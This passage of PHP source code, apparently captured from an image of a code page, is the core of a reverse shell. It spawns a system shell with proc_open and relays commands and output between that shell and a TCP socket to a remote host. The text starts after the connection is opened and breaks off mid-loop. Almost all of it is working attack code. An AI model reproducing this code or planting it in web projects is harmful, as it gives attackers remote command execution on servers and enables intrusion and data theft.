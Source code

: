 if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
